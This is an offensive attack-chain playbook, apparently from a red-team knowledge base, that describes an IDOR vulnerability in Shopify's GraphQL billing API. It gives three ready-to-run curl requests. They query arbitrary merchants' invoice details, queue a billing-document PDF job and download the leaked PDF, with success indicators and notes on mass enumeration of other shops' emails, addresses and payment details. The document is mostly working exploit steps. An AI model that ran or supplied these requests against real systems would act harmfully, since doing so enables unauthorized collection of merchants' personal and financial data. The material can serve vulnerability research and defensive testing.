

---
tags:
  - idor
  - graphql
  - shopify
  - pii-leak
  - billing
  - invoice
type: attack_chain
tools: []
tactics:
  - '[[Collection]]'
commands:
  - '[[commands/shopify-graphql-billdetails-query]]'
  - '[[commands/shopify-graphql-billingdocumentdownload-mutation]]'
  - '[[commands/shopify-invoice-pdf-download]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Query-Arbitrary-Billing-Invoice-Details-via-GraphQL]]'
  - '[[procedures/Generate-Billing-Document-PDF-via-GraphQL-Mutation]]'
  - '[[procedures/Retrieve-Leaked-Invoice-PDF]]'
step_count: 3
techniques:
  - '[[Steal Web Session Cookie]]'
  - '[[Account Discovery]]'
description: >-
  Multi-stage attack exploiting Insecure Direct Object Reference (IDOR) in
  Shopify's GraphQL API to access and download other merchants' billing
  invoices, leaking sensitive PII such as emails, addresses, payment details,
  and shop information.
skill_level: intermediate
impact_level: high
id: b1a33aef-2f48-4130-8f55-2839bbb33d79
created_at: '2025-12-14T17:26:00.242Z'
updated_at: '2025-12-14T17:26:00.242Z'
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Steal Web Session Cookie]]'
  - '[[Account Discovery]]'
---
# IDOR in Shopify GraphQL Billing API Leading to Merchant Invoice and PII Leakage

Multi-stage attack chain demonstrating exploitation of an Insecure Direct Object Reference (IDOR) vulnerability in Shopify's GraphQL Admin API, specifically in the BillDetails query and BillingDocumentDownload mutation. By using predictable numerical IDs without proper ownership validation, an authenticated user can access billing invoices from other merchants, leaking sensitive personally identifiable information (PII) including emails, full addresses, last 4 digits of credit cards or PayPal emails, invoice contents, and shop details. This could enable mass enumeration and dumping of billing data across all Shopify shops.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools or HTTP client like curl
- Valid Shopify admin session (staff or merchant authentication)

### Target Environment

- Shopify Admin API (GraphQL endpoint at /api/shopify/[shop]/graph)
- Web platform with HTTP/2 support
- No specific ports; accessed via HTTPS on standard web ports (443)

### Initial Access Requirements

- Authenticated session as a Shopify merchant or staff user
- Knowledge of target shop domain (myshopify.com)
- Ability to enumerate or guess numerical invoice IDs (incremental and predictable)

## Detailed Attack Procedures

### Step 1: Query Arbitrary Invoice Details
procedure: [[procedures/Query-Arbitrary-Billing-Invoice-Details-via-GraphQL]]

**Objective**: Retrieve detailed billing information for an arbitrary invoice ID belonging to another merchant, leaking shop details, payment methods, credits, charges, and timeline data.

**Instructions**: Authenticate to the Shopify admin panel and use [[commands/shopify-graphql-billdetails-query]] to send a GraphQL query with an arbitrary global ID (gid://shopify/BillingInvoice/[numerical_id]). Replace [shop] with your shop domain and [arbitrary_gid] with a guessed or enumerated ID.

```bash
curl -X POST "https://admin.shopify.com/api/shopify/[shop]/graph?operation=BillDetails&type=query" \
  -H "Content-Type: application/json" \
  -H "Cookie: [your_session_cookie]" \
  -H "X-Csrf-Token: [your_csrf_token]" \
  -d '{"operationName":"BillDetails","variables":{"id":"[arbitrary_gid]","hasBillingSubscriptionsPermission":false},"query":"query BillDetails($id: ID!, $hasBillingSubscriptionsPermission: Boolean!) { shop { id myshopifyDomain countryCode createdAt name plan { name __typename } easeMerchantFailedBillManualPaymentAttempts: experimentAssignment( name: \"ease_merchant_failed_bill_manual_payment_attempts\" ) __typename } billingAccount { id subscription @include(if: $hasBillingSubscriptionsPermission) { id billingPeriod __typename } activePaymentMethod { __typename ... on BillingBankAccount { id bankName lastDigits compatibleCurrencies __typename } ... on BillingCreditCard { id brand lastDigits compatibleCurrencies __typename } ... on BillingReseller { id compatibleCurrencies __typename } ... on BillingPaypalAccount { id email compatibleCurrencies __typename } ... on BillingBalance { id compatibleCurrencies __typename } ... on BillingShopifyBalanceCard { id compatibleCurrencies __typename } ... on BillingManualPayment { id compatibleCurrencies __typename } ... on BillingUpiAccount { id upiId compatibleCurrencies __typename } } ...BillingPaymentMethods validPaymentMethods currency __typename } node(id: $id) { id ... on BillingInvoice { id credits { name category invoiceAmount { amount currencyCode __typename } __typename } chargeCategories { shopId shopName shopDomain category name description count subtotalAmount { amount currencyCode __typename } charges { __typename discountValue { __typename ... on AppSubscriptionDiscountPercentage { percentage __typename } ... on AppSubscriptionDiscountAmount { amount { amount currencyCode __typename } __typename } } amount { amount currencyCode __typename } originalAmount { amount currencyCode __typename } exchangeRate exchangeRateAt issuedAt description title apiClientId feeType hasTraceabilityBetaFlag chargesUrl: url } __typename } createdAt billOn dueOn netTerm status name originClassification prefixBillName purchaseType authenticationStatus strongCustomerAuthenticationPayload { clientToken paymentMethodNonce redirectUrl type __typename } lastFailureReason lastFailureMessage totalAmount { amount currencyCode __typename } totalCreditAmount { amount currencyCode __typename } subtotalAmount { amount currencyCode __typename } refundedAmount { amount currencyCode __typename } timeline { status date amount { amount currencyCode __typename } __typename } paymentMethod { __typename ... on BillingBankAccount { id bankName lastDigits synchronous __typename } ... on BillingCreditCard { id brand lastDigits synchronous __typename } ... on BillingReseller { id synchronous __typename } ... on BillingPaypalAccount { id email synchronous __typename } ... on BillingBalance { id synchronous __typename } ... on BillingManualPayment { id synchronous __typename } ... on BillingUpiAccount { id upiId synchronous __typename } ... on BillingShopifyBalanceCard { id synchronous __typename } } __typename } __typename } } fragment BillingPaymentMethods on BillingAccount { id paymentMethods { __typename ... on BillingBankAccount { id priority bankName lastDigits verificationStatus synchronous compatibleCurrencies __typename } ... on BillingCreditCard { id priority brand lastDigits expired expiryMonth expiryYear synchronous compatibleCurrencies __typename } ... on BillingShopifyBalanceCard { id priority synchronous compatibleCurrencies __typename } ... on BillingReseller { id priority uid handle synchronous compatibleCurrencies __typename } ... on BillingPaypalAccount { id priority email synchronous compatibleCurrencies __typename } ... on BillingBalance { id priority synchronous compatibleCurrencies __typename } ... on BillingShopifyBalanceAccount { id priority synchronous compatibleCurrencies __typename } ... on BillingUpiAccount { id priority upiId synchronous compatibleCurrencies __typename } ... on BillingManualPayment { id priority synchronous compatibleCurrencies __typename } } __typename } }'"
```

**Expected Output**: JSON response containing leaked data such as shop name, domain, payment method details (e.g., last 4 digits of credit card, PayPal email), invoice amounts, credits, and charge categories from another merchant's invoice.

**Success Indicators**:
- Response includes data from a shop not owned by the authenticated user (e.g., different myshopifyDomain)
- Leaked PII visible in fields like email, address, or payment lastDigits

### Step 2: Generate Billing Document PDF
procedure: [[procedures/Generate-Billing-Document-PDF-via-GraphQL-Mutation]]

**Objective**: Initiate a download job for a PDF version of the arbitrary invoice, which embeds additional PII like full addresses and emails despite lacking ownership checks.

**Instructions**: Using the same authenticated session, execute [[commands/shopify-graphql-billingdocumentdownload-mutation]] with the arbitrary gid and specify documentType (e.g., CREDIT_NOTE or INVOICE). This creates a job ID for the PDF generation.

```bash
curl -X POST "https://admin.shopify.com/api/shopify/[shop]/graph?operation=BillingDocumentDownload&type=mutation" \
  -H "Content-Type: application/json" \
  -H "Cookie: [your_session_cookie]" \
  -H "X-Csrf-Token: [your_csrf_token]" \
  -d '{"operationName":"BillingDocumentDownload","variables":{"id":"[arbitrary_gid]","documentType":"CREDIT_NOTE"},"query":"mutation BillingDocumentDownload($id: ID!, $documentType: BillingDocumentType) { billingDocumentDownload(id: $id, documentType: $documentType) { job { id __typename } userErrors { field message __typename } __typename } }"}'
```

**Expected Output**: JSON with a job ID under billingDocumentDownload.job.id; no userErrors if successful, indicating the job is queued for PDF generation.

**Success Indicators**:
- Job ID returned without authorization errors
- Ability to proceed to PDF download endpoint

### Step 3: Download Leaked Invoice PDF
procedure: [[procedures/Retrieve-Leaked-Invoice-PDF]]

**Objective**: Access the generated PDF using the invoice ID, extracting embedded PII from other merchants' documents.

**Instructions**: After obtaining the job ID from Step 2 (or directly using the invoice ID), use [[commands/shopify-invoice-pdf-download]] to fetch the PDF. Note that the URL may show the attacker's shop but contain victim data.

```bash
curl -X GET "https://admin.shopify.com/store/[yourshop]/invoices/[theid]/download.html?document_type=INVOICE" \
  -H "Cookie: [your_session_cookie]" \
  --output leaked_invoice.pdf
```

**Expected Output**: PDF file that displays the attacker's shop name but includes other merchants' details like email, full billing address, and invoice content.

**Success Indicators**:
- PDF downloads successfully without 403/401 errors
- Document contains mismatched data (e.g., victim's address vs. attacker's shop header)

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to other merchants' billing invoices via IDOR in GraphQL queries.
2. Generation and download of PDF documents leaking full PII including addresses and partial payment info.
3. Potential for mass enumeration using predictable numerical IDs, enabling broad data dumping.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Steal Web Session Cookie]]
- [[Account Discovery]]

### MITRE ATT&CK Tactics

- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
